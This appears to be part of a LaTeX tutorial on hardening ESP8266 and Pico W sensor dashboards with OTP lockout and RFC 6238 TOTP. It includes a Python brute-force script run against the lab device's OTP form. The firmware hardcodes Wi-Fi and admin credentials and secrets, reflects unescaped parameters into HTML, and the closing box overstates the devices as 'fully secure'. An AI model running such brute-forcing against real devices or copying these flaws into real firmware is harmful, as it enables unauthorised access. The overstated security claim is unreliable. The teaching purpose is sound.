  --------------------------------------
  Board: NodeMCU (ESP8266)
  Sensor: DHT22

  FEATURES:
  1. Real sensor data displayed by default.
  2. Override requires:
       - Username & Password (Basic Authentication)
       - 6-digit OTP (2FA)
  3. OTP changes automatically every 15 seconds.
  4. After 3 wrong 2FA attempts -> device permanently locks.
  5. Override persists until reboot.
*/

#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DHT.h>

#define D5PIN D5
#define DHTTYPE DHT22

const char* ssid = "drarka.in";
const char* pass = "arkaprabha@1985";

const char* adminUser = "admin";
const char* adminPass = "1234";

DHT dht(D5PIN, DHTTYPE);
ESP8266WebServer server(80);

float overrideTemp = NAN;
float overrideHum  = NAN;

unsigned long lastCodeChange = 0;
const unsigned long codeInterval = 15000;  // 15 seconds
int twoFactorCode = 0;

int failedAttempts = 0;
bool permanentlyBlocked = false;

// Step 1: Algorithmic Generation of a padded 6-digit string
void generateNewCode() {
  twoFactorCode = random(0, 1000000);

  char buffer[7];
  sprintf(buffer, "%06d", twoFactorCode);

  Serial.print("New 6-digit 2FA Code: ");
  Serial.println(buffer);

  lastCodeChange = millis();
}

void setup() {

  Serial.begin(9600);
  randomSeed(micros());
  dht.begin();

  WiFi.begin(ssid, pass);
  while (WiFi.status() != WL_CONNECTED) {
    delay(500);
  }

  Serial.print("Open this IP in browser: ");
  Serial.println(WiFi.localIP());

  generateNewCode();

  server.on("/", []() {

    // Step 2: The Permanent Kill-Switch Execution
    if (permanentlyBlocked) {
      server.send(403, "text/plain",
                  "Device permanently locked due to multiple failed attempts.");
      return;
    }

    if (server.hasArg("t") || server.hasArg("h")) {

      if (!server.authenticate(adminUser, adminPass)) {
        return server.requestAuthentication();
      }

      if (!server.hasArg("code")) {

        String form = "<html><body bgcolor='black' text='white'><center>";
        form += "<h2>Enter 6-digit 2FA Code</h2>";
        form += "<form method='GET'>";
        form += "<input type='hidden' name='t' value='" + server.arg("t") + "'>";
        form += "<input type='hidden' name='h' value='" + server.arg("h") + "'>";
        form += "<input name='code' type='text'>";
        form += "<br><br><input type='submit' value='Submit'>";
        form += "</form>";
        form += "</center></body></html>";

        server.send(200, "text/html", form);
        return;
      }

      // Step 3: Verifying the Threshold Limit
      if (server.arg("code").toInt() != twoFactorCode) {

        failedAttempts++;
        Serial.print("Wrong attempt count: ");
        Serial.println(failedAttempts);

        if (failedAttempts >= 3) {
          permanentlyBlocked = true;
          Serial.println("DEVICE PERMANENTLY LOCKED!");
        }

        server.send(403, "text/plain", "Invalid 2FA Code!");
        return;
      }

      failedAttempts = 0;

      if (server.hasArg("t")) overrideTemp = server.arg("t").toFloat();
      if (server.hasArg("h")) overrideHum  = server.arg("h").toFloat();

      Serial.println("Override successful!");

      generateNewCode();

      server.sendHeader("Location", "/");
      server.send(303);
      return;
    }

    float t = dht.readTemperature();
    float h = dht.readHumidity();

    if (!isnan(overrideTemp)) t = overrideTemp;
    if (!isnan(overrideHum))  h = overrideHum;

    String page = "<html>";
    page += "<head><meta http-equiv='refresh' content='5'></head>";
    page += "<body bgcolor='black' text='white'><center>";

    page += "<h1>Temperature</h1>";
    page += "<h1><font color='cyan'>" + String(t) + " C</font></h1>";

    page += "<h1>Humidity</h1>";
    page += "<h1><font color='pink'>" + String(h) + " %</font></h1>";

    page += "</center></body></html>";

    server.send(200, "text/html", page);
  });

  server.begin();
}

void loop() {

  server.handleClient();

  // Step 4: Time Delta Evaluation (Triggering automatic rotation)
  if (!permanentlyBlocked && millis() - lastCodeChange >= codeInterval) {
    generateNewCode();
  }
}
\end{lstlisting}

% -------------------------
% HACKING NODE MCU LEVEL 9
% -------------------------
\section{Obliterating the Python Dictionary Exploit}
The attacker deploys a modified payload attempting to crack the 6-digit array (`000000` through `999999`). 
Unabridged Python Execution:

\begin{lstlisting}[language=Python, caption=Demo\_9\_brute-forcing.py]
import requests
from requests.auth import HTTPBasicAuth
import time

# Configuration
TARGET_IP = "http://10.39.28.3"
ADMIN_USER = "admin"
ADMIN_PASS = "1234"

def start_secure_attack():
    print(f"[*] Testing security on {TARGET_IP}...")
    print("[!] Security Active: 6-digit OTP + 3-Attempt Lockout.")
    
    # We try only 5 codes to demonstrate the lockout
    for code in range(100000, 100005):
        # Format as 6-digit string (e.g., 100000)
        formatted_code = str(code).zfill(6)
        print(f"[#] Attempting Code: {formatted_code}...")
        
        params = {'t': '99', 'h': '99', 'code': formatted_code}
        
        try:
            response = requests.get(
                TARGET_IP, 
                params=params, 
                auth=HTTPBasicAuth(ADMIN_USER, ADMIN_PASS),
                timeout=5
            )
            
            if response.status_code == 403:
                if "locked" in response.text.lower():
                    print("\n[X] ATTACK HALTED: The device has PERMANENTLY LOCKED the attacker.")
                    print("[X] Reason: 3 failed attempts detected.")
                    return
                else:
                    print(f"[-] Code {formatted_code} rejected.")
            
            elif response.status_code == 200:
                print(f"[+] Success! Correct Code: {formatted_code}")
                return

        except requests.exceptions.RequestException as e:
            print(f"[!] Connection Error: {e}")
            break

    print("\n[!] Brute force failed. Security measures were effective.")

if __name__ == "__main__":
    start_secure_attack()
\end{lstlisting}

\begin{troubleshootbox}[Exploit Defeated]
The python script is executed. It tests `100000`, `100001`, `100002`. Upon dispatching `100003`, the NodeMCU detects the threshold limits and irrevocably alters the web-server execution state to `permanentlyBlocked`. The attacker is completely neutralized. 
\end{troubleshootbox}

% -------------------------
% PICO W EQUIVALENT (LEVEL 9)
% -------------------------
\section{Pico W Level 9: The Foundation of TOTP}
The MicroPython developer natively integrates `hashlib.sha256` to create a Time-Based algorithm synchronizing against a local offset, rather than purely generating randomly seeded variables. This begins the transition into full cryptographic defense.

\begin{lstlisting}[language=Python, caption=06\_strong\_login\_TOTP.py]
import network, socket, time, machine, dht, ubinascii, secrets, hashlib, rp2, sys

# --- [1. STABLE WIFI & HARDWARE SETUP] ---
rp2.country('US')
sensor = dht.DHT22(machine.Pin(15))
wlan = network.WLAN(network.STA_IF)
wlan.active(True)
wlan.config(pm = 0xa11140) 
wlan.connect(secrets.SSID, secrets.PASSWORD)

print("Connecting to WiFi", end="")
while wlan.status() < 3:
    print(".", end="")
    time.sleep(1)

my_ip = wlan.ifconfig()[0]
print(f"\n" + "="*40)
print(f"[LIVE DASHBOARD] http://{my_ip}")
print("="*40)

# --- [2. SECURITY CONFIGURATION] ---
auth = ubinascii.b2a_base64(f"{secrets.WEB_USER}:{secrets.WEB_PASS_STRONG}".encode()).strip().decode()
expected_basic = f"Basic {auth}"

TOTP_INTERVAL = 15
authorized_ips = {}  # Tracks who has passed 2FA
fail_counts = {}     # Tracks hacker attempts
MAX_FAILS = 3
last_totp, last_sec = "", -1

def get_totp():
    """Generates the 6-digit PIN every 15 seconds"""
    step = int(time.time() // TOTP_INTERVAL)
    h = hashlib.sha256(str(step).encode() + b"SALT_PICO").digest()
    return str(int(ubinascii.hexlify(h[:4]), 16))[-6:]

# --- [3. SOCKET ENGINE] ---
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 80))
s.listen(1) # Listen to 1 request at a time to prevent crashes
s.settimeout(0.1)

t, h, spoof = "0.0", "0.0", False

# --- [4. MAIN LOOP] ---
try:
    while True:
        # --- A. SHELL DISPLAY (Smooth & Fast) ---
        curr_t = int(time.time())
        code = get_totp()
        if curr_t != last_sec:
            last_sec = curr_t
            if code != last_totp: 
                last_totp = code
                print(f"\n[NEW TOTP] {last_totp}")
            print(f"\r[2FA CODE: {last_totp}] Rotates in: {TOTP_INTERVAL-(curr_t%TOTP_INTERVAL):02d}s ", end="")

        if not spoof:
            try: 
                sensor.measure()
                t, h = "{:.1f}".format(sensor.temperature()), "{:.1f}".format(sensor.humidity())
            except: pass

        conn = None
        try:
            conn, addr = s.accept()
            ip = addr[0]
            conn.settimeout(0.5)
            
            req = conn.recv(1024).decode()
            if not req:
                conn.close()
                continue

            # 1. Check IP Ban List
            if ip in fail_counts and fail_counts[ip] >= MAX_FAILS:
                conn.sendall(b'HTTP/1.1 403 Forbidden\r\nConnection: close\r\n\r\n<h1>IP BLOCKED</h1>')
                conn.close()
                continue

            if expected_basic in req:
                if 'code=' in req:
                    if f"code={last_totp}" in req:
                        authorized_ips[ip] = time.time() + 600
                        print(f"\n[AUTH] {ip} successfully passed 2FA.")
                    else:
                        fail_counts[ip] = fail_counts.get(ip, 0) + 1
                        print(f"\n[WARN] {ip} guessed wrong TOTP ({fail_counts[ip]}/{MAX_FAILS})")
                        conn.sendall(b'HTTP/1.1 403 Forbidden\r\nConnection: close\r\n\r\n<h2>Invalid 2FA Code</h2>')
                        conn.close()
                        continue

                if ip in authorized_ips and time.time() < authorized_ips[ip]:
                    html = f"""<!DOCTYPE html><html>...<div class="t">{t}&deg;</div>...</html>"""
                else:
                    html = f"""<!DOCTYPE html><html>...<h2>2FA REQUIRED</h2>...</html>"""
                
                response = f'HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nConnection: close\r\n\r\n{html}'
                conn.sendall(response.encode('utf-8'))
            else:
                conn.sendall(b'HTTP/1.1 401 Unauthorized\r\nWWW-Authenticate: Basic realm="Pico"\r\nConnection: close\r\n\r\n')
            
            conn.close()
        except OSError:
            pass 
        time.sleep(0.02)
except KeyboardInterrupt:
    print("\n[SHUTDOWN] Stopping Server...")
finally:
    s.close()
\end{lstlisting}

% ==========================================
% CHAPTER 08: Level 10 (Google Authenticator)
% ==========================================
\chapter{Level 10: The Cryptographic TOTP Masterclass}

\textbf{In This Chapter:}
\begin{itemize}
    \item Systemically analyzing Single-Point-of-Failure architectures.
    \item Utilizing standard Python `hmac` implementations in MicroPython.
    \item Utilizing the `api.qrserver.com` endpoint for QR generation over Wi-Fi.
    \item Full code execution for NodeMCU Demo 10 and Pico W Authenticator.
\end{itemize}

Our device is impenetrable to automated scripts, but we harbor a catastrophic \textbf{Single-Point-Of-Failure}. If an intern accidentally posts the password `1234` into a public GitHub repository, or a technician types it on a sticky note attached to the server rack, the lockout defense becomes completely bypassed because the algorithm trusts the keyholder implicitly. 

\section{The TOTP Mechanics (\url{https://datatracker.ietf.org/doc/html/rfc6238})}
Zero-Trust infrastructure mandates validating intersecting factors. The modern implementation standard for "Possession" validation is the \textbf{Google Authenticator} app on a smartphone.

1. Both the IoT device and the phone share an identical cryptographic base variable (e.g., `JBSWY3DP`) permanently stored in isolating memory constraints.
2. Both independent hardwares synchronize with a universal atomic clock via UDP Network Time Protocol vectors.
3. Both silicon chips independently run the variables through an HMAC-SHA1 mathematical permutation pipeline simultaneously.
4. The immense resulting matrix is dynamically truncated and bitwise-shifted into a globally synchronized 6-digit numeral.

Even possessing the primary administrative password, remote attackers are crippled without concurrent possession of the physical phone displaying the temporal integer. 

% -------------------------
% NODE MCU LEVEL 10
% -------------------------
\section{Systematic NodeMCU Implementation (Demo 10)}
A standard microcontroller lacks the raw 64-bit integer space necessary to easily crunch massive encryption algorithms. Fortunately, the Espressif ESP8266 core encompasses the \texttt{BearSSLHelpers} cryptography suite embedded deep beneath the network stack.

\begin{lstlisting}[language=C++, caption=Demo\_10\_Secure\_IoT\_Admin\_TOTP\_With\_Description.ino]
/*
  ===============================================================
  Secure IoT System - Admin + Password + TOTP (QR + Manual)
  ===============================================================

  FEATURES:
  ✓ Admin login (username: admin, password: 1234)
  ✓ Google Authenticator TOTP (6-digit, 30-second)
  ✓ QR code generation using api.qrserver.com
  ✓ Manual secret setup option
  ✓ Auto-refresh live sensor display (every 5 sec)
  ✓ Secure /set route (requires password + fresh OTP)
  ✓ 3 wrong update attempts -> "Unauthorized access"
  ✓ Cyan temperature, Pink humidity display

  REQUIRED LIBRARIES:
  - Base32-Decode
  - NTPClient
  (BearSSL is included in ESP8266 core)

  HARDWARE:
  - NodeMCU (ESP8266)
  - DHT22 connected to D5
*/

#include <ESP8266WiFi.h>
#include <ESP8266WebServer.h>
#include <DHT.h>
#include <WiFiUdp.h>
#include <NTPClient.h>
#include <Base32-Decode.h>
#include <BearSSLHelpers.h>

const char* ssid = "drarka.in";
const char* password = "arkaprabha@1985";

const String ADMIN_USER = "admin";
const String ADMIN_PASS = "1234";

const String SECRET_KEY = "JBSWY3DPEHPK3PXPJBSWY3DPEHPK3PXP";

#define DHTPIN D5
#define DHTTYPE DHT22
DHT dht(DHTPIN, DHTTYPE);

ESP8266WebServer server(80);
WiFiUDP ntpUDP;
NTPClient timeClient(ntpUDP, "pool.ntp.org", 0, 60000);

uint8_t decodedKey[32];
int decodedKeyLen = 0;

bool loggedIn = false;
int failedAttempts = 0;
bool blocked = false;

float overrideTemp = NAN;
float overrideHum  = NAN;

// Step 1: The Core HMAC-SHA1 Algorithm translated to C++ Pointers
String getTOTP(unsigned long epochSeconds) {

  uint64_t counter = epochSeconds / 30;

  uint8_t msg[8];
  for (int i = 7; i >= 0; i--) {
    msg[i] = counter & 0xFF;
    counter >>= 8;
  }

  uint8_t hash[20];
  br_hmac_key_context kc;
  br_hmac_context ctx;

  br_hmac_key_init(&kc, &br_sha1_vtable, decodedKey, decodedKeyLen);
  br_hmac_init(&ctx, &kc, 0);
  br_hmac_update(&ctx, msg, sizeof(msg));
  br_hmac_out(&ctx, hash);

  int offset = hash[19] & 0x0F;

  uint32_t binary =
    ((hash[offset] & 0x7F) << 24) |
    ((hash[offset+1] & 0xFF) << 16) |
    ((hash[offset+2] & 0xFF) << 8) |
    (hash[offset+3] & 0xFF);

  uint32_t otp = binary % 1000000;

  char buf[7];
  snprintf(buf, sizeof(buf), "%06u", otp);

  return String(buf);
}

void handleRoot() {

  if (!loggedIn) {

    if (!server.hasArg("user")) {
      server.send(200, "text/html",
        "<h3>Admin Login</h3>"
        "<form method='GET'>"
        "Username:<br><input name='user'><br>"
        "Password:<br><input name='pass' type='password'><br><br>"
        "<input type='submit' value='Login'>"
        "</form>");
      return;
    }

    if (server.arg("user") != ADMIN_USER ||
        server.arg("pass") != ADMIN_PASS) {
      server.send(401, "text/plain", "Invalid credentials");
      return;
    }

    if (!server.hasArg("otp")) {

      String otpURL =
        "otpauth://totp/IoT-Secure?secret=" +
        SECRET_KEY +
        "&issuer=IoT-Secure";

      String qrURL =
        "https://api.qrserver.com/v1/create-qr-code/?size=300x300&data=" +
        otpURL;

      String html =
        "<h3>Google Authenticator Setup</h3>"
        "<img src='" + qrURL + "' width='250'><br><br>"
        "<p><b>Manual Setup Key:</b> " + SECRET_KEY + "</p>"
        "<hr>"
        "<form method='GET'>"
        "<input type='hidden' name='user' value='admin'>"
        "<input type='hidden' name='pass' value='1234'>"
        "Enter 6-digit OTP:<br><input name='otp'><br><br>"
        "<input type='submit' value='Verify'>"
        "</form>";

      server.send(200, "text/html", html);
      return;
    }

    timeClient.update();

    if (server.arg("otp") == getTOTP(timeClient.getEpochTime())) {
      loggedIn = true;
    } else {
      server.send(401, "text/plain", "Invalid OTP");
      return;
    }
  }

  float t = isnan(overrideTemp) ? dht.readTemperature() : overrideTemp;
  float h = isnan(overrideHum)  ? dht.readHumidity()    : overrideHum;

  String html =
    "<meta http-equiv='refresh' content='5'>"
    "<body style='background:black;color:white;text-align:center;'>"
    "<h2>Secure Live Sensor Data</h2>"
    "<h3>Temperature</h3>"
    "<h1 style='color:cyan;'>" + String(t,1) + " C</h1>"
    "<h3>Humidity</h3>"
    "<h1 style='color:pink;'>" + String(h,1) + " %</h1>"
    "</body>";

  server.send(200, "text/html", html);
}

void handleSet() {

  if (blocked) {
    server.send(403, "text/plain", "Unauthorized access");
    return;
  }

  if (!server.hasArg("pass") || !server.hasArg("otp")) {
    server.send(400, "text/plain", "Password and OTP required");
    return;
  }

  timeClient.update();

  if (server.arg("pass") != ADMIN_PASS ||
      server.arg("otp") != getTOTP(timeClient.getEpochTime())) {

    failedAttempts++;

    if (failedAttempts >= 3) {
      blocked = true;
      server.send(403, "text/plain", "Unauthorized access");
      return;
    }

    server.send(401, "text/plain", "Invalid credentials");
    return;
  }

  failedAttempts = 0;

  if (server.hasArg("t")) overrideTemp = server.arg("t").toFloat();
  if (server.hasArg("h")) overrideHum  = server.arg("h").toFloat();

  server.send(200, "text/plain", "Values updated successfully");
}

void setup() {

  Serial.begin(115200);
  dht.begin();

  WiFi.begin(ssid, password);
  while (WiFi.status() != WL_CONNECTED) delay(300);

  Serial.println("Connected!");
  Serial.println(WiFi.localIP());

  timeClient.begin();
  while (!timeClient.update()) timeClient.forceUpdate();

  decodedKeyLen = base32decode(
    SECRET_KEY.c_str(),
    decodedKey,
    sizeof(decodedKey)
  );

  server.on("/", handleRoot);
  server.on("/set", handleSet);
  server.begin();
}

void loop() {
  server.handleClient();
  timeClient.update();
}
\end{lstlisting}

% -------------------------
% PICO W AUTHENTICATOR
% -------------------------
\section{Pico W Level 10: Official Authenticator Upgrade}
The MicroPython developer finally merges universal Y2K Unix Epoch mathematical fixes and the official `hmac-sha1` integer truncation sequence, completely matching Google Authenticator specifications.

\begin{lstlisting}[language=Python, caption=07\_strong\_login\_Authenticator.py]
import network, socket, time, machine, dht, ubinascii, secrets, hashlib, rp2, ntptime

# --- [1. WIFI & TIME SYNC] ---
rp2.country('US')
sensor = dht.DHT22(machine.Pin(15))
wlan = network.WLAN(network.STA_IF)
wlan.active(True)
wlan.config(pm = 0xa11140) 
wlan.connect(secrets.SSID, secrets.PASSWORD)

print("Connecting to WiFi", end="")
while wlan.status() < 3:
    print(".", end="")
    time.sleep(1)

my_ip = wlan.ifconfig()[0]

print("\nSyncing exact time with Internet (NTP)", end="")
ntp_success = False
for i in range(10): # Try up to 10 times to ensure we get the real time
    try:
        ntptime.settime()
        ntp_success = True
        break
    except:
        time.sleep(1)
        print(".", end="")

if ntp_success:
    print(" [SUCCESS] Clock synced!")
else:
    print("\n[!!!] CLOCK SYNC FAILED [!!!] Codes will not match.")

# --- [2. CRITICAL FIX: EPOCH DETECTION] ---
if time.localtime(0)[0] == 2000:
    UNIX_OFFSET = 946684800
    print("[SYSTEM] Y2K Epoch detected. Applying 30-year correction.")
else:
    UNIX_OFFSET = 0

# --- [3. BULLETPROOF GOOGLE AUTHENTICATOR SETUP] ---
print("\n" + "="*50)
print("  ADD THIS NEW KEY TO GOOGLE AUTHENTICATOR")
print("="*50)
print("Option 1: Scan this QR Code from your browser:")
print("https://api.qrserver.com/v1/create-qr-code/?data=otpauth://totp/Pico:Pico%20Monitor?secret=GEZDGNBVGY3TQOJQGEZDGNBVGY3TQOJQ&issuer=Pico&size=300x300")
print("Option 2: Enter Key Manually:")
print("Account: Pico Monitor")
print("Key:     GEZDGNBVGY3TQOJQGEZDGNBVGY3TQOJQ")
print("-" * 50)
print(f"[LIVE DASHBOARD] http://{my_ip}")
print("="*50 + "\n")

auth = ubinascii.b2a_base64(f"{secrets.WEB_USER}:{secrets.WEB_PASS_STRONG}".encode()).strip().decode()
expected_basic = f"Basic {auth}"

TOTP_INTERVAL = 30 

SECRET_BYTES = b"12345678901234567890"

authorized_ips = {}
fail_counts = {}
MAX_FAILS = 3
last_totp, last_sec = "", -1

def hmac_sha1(key, msg):
    """Official HMAC-SHA1 algorithm"""
    if len(key) > 64: key = hashlib.sha1(key).digest()
    key = key + b'\x00' * (64 - len(key))
    ipad = bytes(x ^ 0x36 for x in key)
    opad = bytes(x ^ 0x5C for x in key)
    inner = hashlib.sha1(ipad + msg).digest()
    return hashlib.sha1(opad + inner).digest()

def get_google_auth_code():
    """Generates the 6-digit Google Auth code using real UTC Time"""
    unix_time = time.time() + UNIX_OFFSET
    time_step = int(unix_time // TOTP_INTERVAL)
    
    msg = bytearray(8)
    for i in range(7, -1, -1):
        msg[i] = time_step & 0xff
        time_step >>= 8
        
    hash_result = hmac_sha1(SECRET_BYTES, msg)
    offset = hash_result[19] & 0x0F
    code_int = ((hash_result[offset] & 0x7F) << 24 |
                (hash_result[offset+1] & 0xFF) << 16 |
                (hash_result[offset+2] & 0xFF) << 8 |
                (hash_result[offset+3] & 0xFF))
    
    code = str(code_int % 1000000)
    return "0" * (6 - len(code)) + code

# --- [4. SOCKET ENGINE] ---
s = socket.socket()
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(('0.0.0.0', 80))
s.listen(1)
s.settimeout(0.1)

t, h, spoof = "0.0", "0.0", False

# --- [5. MAIN LOOP] ---
try:
    while True:
        curr_t = int(time.time())
        code = get_google_auth_code()
        
        if curr_t != last_sec:
            last_sec = curr_t
            if code != last_totp: last_totp = code
            print(f"\r[Pico Code: {last_totp}] | Matches phone? Rotates in: {TOTP_INTERVAL-(curr_t%TOTP_INTERVAL):02d}s ", end="")

        if not spoof:
            try: 
                sensor.measure()
                t, h = "{:.1f}".format(sensor.temperature()), "{:.1f}".format(sensor.humidity())
            except: pass

        conn = None
        try:
            conn, addr = s.accept()
            ip = addr[0]
            conn.settimeout(0.5)
            
            req = conn.recv(1024).decode()
            if not req:
                conn.close()
                continue

            if ip in fail_counts and fail_counts[ip] >= MAX_FAILS:
                conn.sendall(b'HTTP/1.1 403 Forbidden\r\nConnection: close\r\n\r\n<h1>IP BLOCKED: Too Many Failed 2FA Attempts</h1>')
                conn.close()
                continue

            if expected_basic in req:
                
                if 'code=' in req:
                    if f"code={last_totp}" in req:
                        authorized_ips[ip] = time.time() + 600 # 10 minute session
                        print(f"\n[AUTH SUCCESS] {ip} unlocked dashboard.")
                        conn.sendall(b'HTTP/1.1 302 Found\r\nLocation: /\r\nConnection: close\r\n\r\n')
                        conn.close()
                        continue
                    else:
                        fail_counts[ip] = fail_counts.get(ip, 0) + 1
                        print(f"\n[AUTH FAILED] {ip} Wrong Code. ({fail_counts[ip]}/{MAX_FAILS})")
                        conn.sendall(b'HTTP/1.1 403 Forbidden\r\nConnection: close\r\n\r\n<h2>Invalid Google Auth Code</h2>')
                        conn.close()
                        continue

                if ip in authorized_ips and time.time() < authorized_ips[ip]:
                    html = f"""<!DOCTYPE html><html><head><meta http-equiv="refresh" content="2;url=/">
                    <style>
                        body {{ background:#000; color:white; font-family:sans-serif; display:flex; flex-direction:column; align-items:center; justify-content:center; height:100vh; margin:0; }}
                        .l {{ color:#333; font-size:1.5rem; letter-spacing:5px; margin-top:20px; font-weight:bold; }}
                        .t {{ color:cyan; font-size:10rem; font-weight:bold; margin:0; text-shadow:0 0 30px cyan; }}
                        .h {{ color:pink; font-size:10rem; font-weight:bold; margin:0; text-shadow:0 0 30px pink; }}
                    </style></head><body>
                        <div class="l">TEMPERATURE</div><div class="t">{t}&deg;</div>
                        <div class="l">HUMIDITY</div><div class="h">{h}%</div>
                    </body></html>"""
                else:
                    html = f"""<!DOCTYPE html><html><head><meta name="viewport" content="width=device-width, initial-scale=1">
                    <style>
                        body {{ background:#0a0a0a; color:cyan; font-family:sans-serif; text-align:center; padding-top:20vh; margin:0; }}
                        input {{ background:black; border:2px solid cyan; color:cyan; padding:15px; font-size:1.5rem; border-radius:10px; width:200px; text-align:center; outline:none; letter-spacing:3px; }}
                        button {{ background:cyan; border:none; padding:15px 30px; font-size:1rem; font-weight:bold; border-radius:10px; margin-top:20px; color:black; cursor:pointer; }}
                    </style></head><body>
                        <h2>GOOGLE AUTHENTICATOR</h2>
                        <form action="/" method="get">
                            <input type="text" name="code" placeholder="000 000" inputmode="numeric" autofocus autocomplete="off"><br>
                            <button type="submit">UNLOCK DASHBOARD</button>
                        </form></body></html>"""
                
                response = f'HTTP/1.1 200 OK\r\nContent-Type: text/html\r\nConnection: close\r\n\r\n{html}'
                conn.sendall(response.encode('utf-8'))
            else:
                conn.sendall(b'HTTP/1.1 401 Unauthorized\r\nWWW-Authenticate: Basic realm="Pico"\r\nConnection: close\r\n\r\n')
            
            conn.close()
        except OSError:
            pass
        
        time.sleep(0.02)
except KeyboardInterrupt:
    print("\n[SHUTDOWN] Stopping Server...")
finally:
    s.close()
\end{lstlisting}

\begin{takeawaybox}
By enforcing a strict HMAC-SHA1 algorithm mathematically matching the global RFC standard, the devices are officially fully secure. A hacker intercepting the `Basic` hash and circumventing the 3-strike network lockout will still fail against the Time-based temporal shifting properties of independent local execution arrays. You have secured the machine!
\end{takeawaybox}


\end{document}
